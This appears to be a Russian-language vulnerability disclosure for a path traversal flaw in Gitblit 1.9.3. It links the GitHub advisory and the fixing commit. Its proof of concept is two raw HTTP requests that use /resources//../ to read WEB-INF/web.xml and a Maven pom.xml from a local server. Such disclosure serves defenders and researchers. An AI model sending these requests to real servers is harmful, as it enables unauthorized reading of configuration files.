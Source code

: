 # Обзор #

## Описание уязвимости на github asvisory: ##
https://github.com/advisories/GHSA-2c65-rq62-fqhq

## Описание уязвимости: ##
Уязвимость Path Traversal в Gitblit 1.9.3 может привести к чтению файлов веб-сайта через /resources//../ (например, с указанием пути WEB-INF или META-INF).

## Метод, приводящий к уязвимости ##
java.lang.String.encode

## Репозиторий проекта с уязвимостью: ##
https://github.com/gitblit-org/gitblit

## PoC: ##
~~~
GET /resources//../WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
~~~
![1](gitblit.png)

~~~
GET /resources//../META-INF/maven/com.gitblit/gitblit/pom.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
~~~
![2](gitblit2.png)

## Коммиты, исправившие уязвимость: ##
https://github.com/gitblit-org/gitblit/commit/f1b150b8f3860e9116ecc7a5290e8296ca4fdcb5
